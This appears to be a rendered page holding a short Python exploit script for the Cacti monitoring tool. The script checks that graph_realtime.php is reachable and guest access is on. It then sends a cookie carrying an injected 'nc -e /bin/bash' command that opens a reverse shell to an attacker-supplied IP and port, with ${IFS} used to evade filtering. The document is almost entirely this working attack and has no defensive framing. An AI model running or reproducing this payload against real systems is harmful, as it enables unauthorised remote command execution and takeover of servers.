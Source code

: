 ```
from bs4 import BeautifulSoup
from urllib.parse import quote

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 4:
    print("[~] Usage : ./Cacti-exploit.py url ip port")
    exit()

url = sys.argv[1]
ip = sys.argv[2]
port = sys.argv[3]

def send_exploit(url):
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    path = url+"/graph_realtime.php?action=init"
    req = requests.get(path)
    if req.status_code == 200 and "poller_realtime.php" in req.text:
        print("[+] File Found and Guest is enabled!")
        print("[+] Sending malicous request, check your nc ;)")
        requests.get(path, cookies=cookies)
    else:
        print("[+] Error while requesting the file!")

send_exploit(url) 
```

![image](img/4bebd2f7cf7c6a0c0de201c0e6612790.png)
